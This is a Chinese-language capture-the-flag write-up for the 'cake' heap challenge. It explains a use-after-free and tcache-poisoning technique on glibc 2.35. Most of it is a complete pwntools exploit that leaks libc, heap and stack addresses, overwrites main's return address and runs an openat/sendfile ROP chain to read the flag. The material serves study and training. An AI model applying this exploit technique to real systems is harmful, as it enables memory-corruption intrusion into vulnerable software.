



# cake

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.15|

## seccomp rules



## 解题思路

和初赛的堆题差不多，也是可以释放后释放或者读取，释放后写入需要稍微绕一下，
由于释放时没有清除指针，只是清除了 inuse 标志，因此可以把堆块拿回来后再释放。



按照图示，就可以达成和初赛一样的 tcache poisoning 了。我这里选择的是打栈，先泄露
`environ`，然后找到 `main` 函数的栈帧后修改返回地址，最后退出就可以触发 ROP 了。
远程 `main` 函数栈帧到 `environ` 的距离和本地略有不同，需要稍微调整一下。

## EXPLOIT

```python
from pwn import *
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './cake'
context.arch = 'amd64'
ARGS = { 'gdb_args': [
    '-iex', 'set debug-file-directory /libraries/2.35-0ubuntu3.15_amd64/.debug',
    '-iex', 'set directories /usr/src/debug/glibc-2.35'],
}

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, **ARGS)
    else:
        t = remote('10.1.100.141', 9999)
    elf = ELF(EXE)
    libc = elf.libc

    def create(idx: int, size: int):
        t.sendlineafter(b'choice', b'1')
        t.sendlineafter(b'index', str(idx).encode())
        t.sendlineafter(b'size', str(size).encode())

    def change(idx: int, buf: bytes):
        t.sendlineafter(b'choice', b'2')
        t.sendlineafter(b'index', str(idx).encode())
        t.sendlineafter(b'length', str(len(buf)).encode())
        t.sendafter(b'data', buf)

    def view(idx: int) -> bytes:
        t.sendlineafter(b'choice', b'3')
        t.sendlineafter(b'index', str(idx).encode())
        t.recvuntil(b'data: ')
        return t.recvuntil(b'\n1. create\n', drop=True)

    def remove(idx: int):
        t.sendlineafter(b'choice', b'4')
        t.sendlineafter(b'index', str(idx).encode())

    def leave():
        t.sendlineafter(b'choice', b'5')

    create(20, 0x40)
    change(20, b'flag\0')
    create(0, 0x420)
    create(1, 0x28)
    create(2, 0x28)
    create(3, 0x28)
    remove(0)
    remove(1)
    libc_base = u64(view(0)[:8]) - 0x21ace0
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base
    heap_base = u64(view(1)[:8]) << 12
    success(GOLD_TEXT(f'Leak heap_base: {heap_base:#x}'))

    remove(2)
    remove(3)
    create(4, 0x28) # take back chunk 3
    create(5, 0x28) # take back chunk 2
    create(6, 0x28) # take back chunk 1
    # free 4, 5, 6 then
    remove(3) # UAF on in-use chunks
    remove(2)
    remove(1)

    def PROTECT_PTR(val: int, pos: int) -> int:
        return val ^ (pos >> 12)

    change(5, p64(PROTECT_PTR(libc.symbols['environ'], heap_base)))
    create(7, 0x28)
    create(8, 0x28) # take back chunk 5, next should be environ
    create(9, 0x28)
    environ = u64(view(9)[:8])
    main_ret = (environ - (0x118 if not lo else 0x128)) & ~0xf
    info(f'Prepare to write to {main_ret:#x}')

    create(10, 0x400)
    create(11, 0x400)
    create(12, 0x400)
    remove(10)
    remove(11)
    remove(12)
    create(13, 0x400)
    create(14, 0x400)
    create(15, 0x400)
    remove(10)
    remove(11)
    remove(12)

    change(14, p64(PROTECT_PTR(main_ret, heap_base)))
    create(16, 0x400)
    create(17, 0x400) # take back chunk 14, next should be stack
    create(18, 0x400)

    gadgets = ROP(libc)
    change(18, flat(
        gadgets.ret.address,
        gadgets.ret.address,
        gadgets.ret.address,
        gadgets.ret.address,
        gadgets.ret.address,
        # openat(AT_FDCWD, "flag", 0)
        gadgets.rdi.address,
        -100,
        libc_base + 0x2a527, # add rsp, 8; ret
        b'flag'.ljust(8, b'\0'),
        gadgets.rsi.address,
        heap_base + 0x2a0, # chunk 15, "flag"
        gadgets.rdx.address,
        0, 0,
        libc.symbols['openat'],
        # sendfile(1, 3, NULL, 0x50)
        gadgets.rdi.address,
        1,
        gadgets.rsi.address,
        3,
        gadgets.rdx.address,
        0, 0,
        gadgets.rcx.address,
        0x50,
        libc.symbols['sendfile'],
        # _exit(0)
        gadgets.rdi.address,
        0,
        libc.symbols['_exit'],
    ))

    leave()

    t.recvuntil(b'DASCTF{')
    flag = 'DASCTF{' + t.recvuntil(b'}').decode()
    success(f'Flag is: {flag}')

    t.close()
```


